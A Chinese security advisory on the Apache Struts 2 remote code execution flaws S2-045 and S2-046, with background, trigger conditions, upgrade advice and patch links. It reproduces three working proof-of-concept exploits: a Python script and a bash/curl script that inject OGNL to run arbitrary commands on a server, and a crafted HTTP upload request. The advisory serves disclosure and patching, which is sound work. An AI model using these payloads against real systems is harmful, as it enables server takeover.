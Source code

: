 
# 【重大漏洞预警】Struts 2 远程代码执行漏洞(s2-045s2-046) (含PoC)


                                阅读量   
                                **499553**
                            
                        |
                        
                                                                                    



**[![](./img/85744/t01bc3ed8c359dc1cab.png)](./img/85744/t01bc3ed8c359dc1cab.png)**



**<br>**

**背景介绍**



近日，安全研究人员发现著名J2EE框架——Struts2存在远程代码执行的漏洞，Struts2官方已经确认该漏洞（S2-045,S2-046），并定级为高危漏洞。

Struts2 的使用范围及其广泛，国内外均有大量厂商使用该框架。

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。Struts 2是Struts的下一代产品，是在 struts 1和WebWork的技术基础上进行了合并的全新的Struts 2框架。（来源：百度百科）

**漏洞描述**

使用Jakarta插件处理文件上传操作时可能导致远程代码执行漏洞。

[![](./img/85744/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t011982617da999ca38.png)

**S2-045漏洞影响**

攻击者可以通过构造HTTP请求头中的Content-Type值可能造成远程代码执行。

<br>



**<strong style="font-size: 18px;text-indent: 32px">S2-045**PoC_1（来源于网络：[http://www.cnblogs.com/milantgh/p/6512739.html](http://www.cnblogs.com/milantgh/p/6512739.html)  ）</strong>

****



```
#! /usr/bin/env python
# encoding:utf-8
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
def poc():
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()
poc()
```







**S2-046漏洞影响（更新）**



**触发条件**

上传文件的大小（由Content-Length头指定）大于Struts2默认允许的最大大小（2M）。

header中的Content-Disposition中包含空字节。

文件名内容构造恶意的OGNL内容。

<br>

**<strong>S2-046**PoC（来源于网络：[](http://www.cnblogs.com/milantgh/p/6512739.html)[https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#](https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#) ）</strong>

需要在strust.xml中加入 &lt;constant name="struts.multipart.parser" value="jakarta-stream" /&gt;才能触发。

```
POST /doUpload.action HTTP/1.1
Host: localhost:8080
Content-Length: 10000000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAnmUgTEhFhOZpr9z
Connection: close

------WebKitFormBoundaryAnmUgTEhFhOZpr9z
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}"
Content-Type: text/plain
Kaboom 

------WebKitFormBoundaryAnmUgTEhFhOZpr9z--
```

**<strong><br>**</strong>

**<strong>S2-046**PoC_2（来源于网络：[https://gist.githubusercontent.com/frohoff/a3e24764561c0c18b6270805140e7600 ](https://gist.githubusercontent.com/frohoff/a3e24764561c0c18b6270805140e7600)）</strong>

```
#!/bin/bash

url=$1
cmd=$2
shift
shift

boundary="---------------------------735323031399963166993862150"
content_type="multipart/form-data; boundary=$boundary"
payload=$(echo "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"$cmd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}")

printf -- "--$boundaryrnContent-Disposition: form-data; name="foo"; filename="%sb"rnContent-Type: text/plainrnrnxrn--$boundary--rnrn" "$payload" | curl "$url" -H "Content-Type: $content_type" -H "Expect: " -H "Connection: close" --data-binary @- $@
```

**验证截图**

[![](./img/85744/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01203e6ee0e6688c16.png)

**修复建议**

1. 严格过滤 **Content-Type** 、**filename**里的内容，严禁ognl表达式相关字段。

2. 如果您使用基于Jakarta插件，请升级到Apache Struts 2.3.32或2.5.10.1版本。（**强烈推荐**）

<br>

**官网公告**

[https://cwiki.apache.org/confluence/display/WW/S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)

[https://cwiki.apache.org/confluence/display/WW/S2-04](https://cwiki.apache.org/confluence/display/WW/S2-045)6

****

**补丁地址**

Struts 2.3.32：[https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32) 

Struts 2.5.10.1：[https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1) 

<br>



**参考**

[http://struts.apache.org/docs/s2-045.html](http://struts.apache.org/docs/s2-045.html) 

[http://struts.apache.org/docs/s2-046.html](http://struts.apache.org/docs/s2-046.html)

[https://gist.githubusercontent.com/frohoff/a3e24764561c0c18b6270805140e7600](https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#)

[https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#](https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#)

